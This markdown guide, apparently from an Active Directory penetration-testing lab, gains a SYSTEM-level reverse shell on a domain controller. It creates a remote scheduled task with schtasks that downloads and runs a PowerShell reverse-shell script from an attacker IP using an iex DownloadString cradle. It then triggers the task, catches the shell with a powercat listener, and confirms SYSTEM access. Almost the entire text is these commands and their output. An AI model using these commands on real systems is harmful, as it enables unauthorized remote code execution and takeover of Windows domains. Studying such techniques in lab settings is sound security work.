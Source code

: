 # Scheduling and Executing a Task with PowerShell

This guide demonstrates how to schedule a task using PowerShell and execute a reverse shell on a remote machine using `Invoke-PowerShellTcp` and `schtasks`. It also covers how to check if any scheduled tasks are running.

## Step-by-Step Process

### 1. **Adding a Function to the `Invoke-PowerShellTcp` Script**

To initiate a reverse PowerShell shell, run the following command:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.157 -Port 4444
```

Make sure to add the desired function to the end of the script to ensure the reverse shell executes correctly.

### 2. **Creating a Scheduled Task**

You can create a scheduled task on the remote machine (in this case, `dcorp-dc.dollarcorp.moneycorp.local`) using the `schtasks` command:

```powershell
PS C:\Windows\system32> schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex(New-Object Net.WebClient).DownloadString(''http://172.16.100.157/Invoke-PowerShellTcp-buildin-func.ps1'')'"
```

Explanation of parameters:
- `/S`: Specifies the remote machine (`dcorp-dc.dollarcorp.moneycorp.local`).
- `/SC Weekly`: Schedules the task to run weekly.
- `/RU "NT Authority\SYSTEM"`: Runs the task as the `SYSTEM` account for higher privileges.
- `/TN "STCheck"`: Names the task "STCheck".
- `/TR`: Specifies the task action (in this case, executing PowerShell to download and run the script).

The output should be:

```
SUCCESS: The scheduled task "STCheck" has successfully been created.
```

### 3. **Running the Scheduled Task**

To manually run the scheduled task, use the following command:

```powershell
PS C:\Windows\system32> schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"
```

The output should confirm that the task has been attempted:

```
SUCCESS: Attempted to run the scheduled task "STCheck".
```

### 4. **Listening for Incoming Connections**

While the scheduled task is running on the remote machine, you can listen for the reverse shell using Powercat:

```powershell
PS C:\AD\Tools> powercat -v -l -p 4444 -t 1000
```

This command listens on port 4444 for incoming connections, waiting for the reverse shell.

### 5. **Verifying the Current User**

Once you have the reverse shell, verify that you're running with the `SYSTEM` account by checking the hostname and user:

```powershell
PS C:\Windows\system32> hostname
dcorp-dc

PS C:\Windows\system32> whoami
nt authority\system
```

### 6. **Checking for Running Scheduled Tasks**

To check if there are any active scheduled tasks running, use the following command:

```powershell
schtasks /query /S dcorp-dc.dollarcorp.moneycorp.local
```

This will list all scheduled tasks on the remote machine and their current statuses.

---

## Conclusion

By following these steps, you can schedule a task to execute a PowerShell reverse shell on a remote machine, listen for incoming connections, and verify your elevated privileges. Additionally, checking for running scheduled tasks can help you monitor the status of any ongoing tasks on the remote system.

